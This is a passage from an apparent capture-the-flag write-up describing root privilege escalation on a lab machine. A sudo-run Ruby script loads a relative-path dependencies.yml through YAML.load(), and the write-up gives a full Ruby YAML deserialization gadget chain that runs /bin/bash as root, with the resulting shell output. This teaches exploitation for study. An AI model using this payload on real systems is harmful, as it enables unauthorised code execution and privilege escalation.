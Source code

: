 ```bash
            end
        end
    end
end
henry@precious:/opt$ cat sample/dependencies.yml 
yaml: 0.1.1
pdfkit: 0.8.6

```

The script file is not writable.

The script is reading names of gems and the versions from a YAML file. Then it compares the versions with the installed gem version, and prints something to the screen based on that. It is not even installing the dependency.

One thing worth noting here is that the file `dependencies.yml` does not have absolute path, meaning that we can control this `yml` file from any arbitrary directory we have access to.

The `yml` file is called on the `YAML.load()`. 

The `YAML.load()` function is vulnerable to insecure deserialization vulnerability which leads to RCE.

Read more about it [here](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/).

```bash

henry@precious:/dev/shm/cur1osity$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash
         method_id: :resolve
henry@precious:/dev/shm/cur1osity$ 
henry@precious:/dev/shm/cur1osity$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
root@precious:/dev/shm/cur1osity# 
root@precious:/dev/shm/cur1osity# id; whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@precious:/dev/shm/cur1osity# hostname
precious
root@precious:/dev/shm/cur1osity# date
Fri 23 Dec 2022 04:30:42 AM EST
root@precious:/dev/shm/cur1osity# 

```
